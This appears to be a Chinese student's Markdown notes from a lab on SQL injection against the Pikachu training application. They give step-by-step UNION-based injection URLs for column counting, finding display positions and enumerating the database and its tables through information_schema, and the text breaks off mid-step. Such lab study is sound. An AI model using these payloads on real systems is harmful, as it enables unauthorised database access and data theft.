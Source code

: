 ## 万能密码原理

![image-20230920201051623](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230920201051623.png)

![image-20230920201129675](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230920201129675.png)

## union联合查询

原理是让前面的查询结果为空走后面的union查询

但是我们需要让联合查询后面的**字段数和主查询一致**

所以我们需要下先进行BOOL盲注来保证前面的**主查询为正确的但是查询结果为空**

下一步在后面使用order by 配合二分法试出有几个字段数

最后我们使用联合查询

```
http://localhost/pikachu/vul/sqli/sqli strphp?name=0' union select 1,2 --+&submit=查询
```

注意我们union select 后面的字段数就算没有值也需要和用值来占位,否者报错

如果字段数比较多我们需要先确认那几个是显示位

确认输出位后我们可以拿数据库函数来替换占位的值

后面我们就可以结合元数据库来进行查值

具体思路就是我们需要先知道是哪个数据库,再查询是哪个表名(table_name),之后进入表中拿出表头(column_name),来进行我需要那些数据,过程都可以使用group_concat来进行一行来输出

之后我们就可以看输出位有几个来进行我们想要获取到的值

特殊情况,如果是数字型,后端对引号做了过滤,我们可以采用十六进制来进行编译

```
老师写的步骤代码:

尝试先获取当前的数据库名 
1. 判断查询语句的列数 (保证当前语句有查询结果的情况下拼接order by 测试)
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312' or 1=1  order by 1 --+&submit=æ¥è¯¢
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312' or 1=1  order by 2 --+&submit=æ¥è¯¢
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312' or 1=1  order by 3 --+&submit=æ¥è¯¢
当使用第3列测试,页面出现错误, 或者内容不显示的情况, 说明当前就只用2列

2. 实现查询结果为假 , 没有结果
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312'   order by 2 --+&submit=æ¥è¯¢

3.拼接union , 查看显示位
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312'   union select  1,2 --+&submit=æ¥è¯¢

4. 在显示位的位置嵌入查询当前数据库名的代码
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312'   union select  database(),2 --+&submit=æ¥è¯¢
得到当前数据库为: pikachu

5. 开始借用系统默认库,获取pikachu 中的表名
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312'   union select  table_name,2  from information_schema.tables  where table_schema='pikachu'--+&submit=æ¥è¯¢
一般情况下,只能一行一行的输出,需要字符串连接函数来处理 或者 结合limit 一行一行的输出
limit
第一行
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312'   union select  table_name,2  from information_schema.tables  where table_schema='pikachu' limit 0,1--+&submit=æ¥è¯¢
第二行
```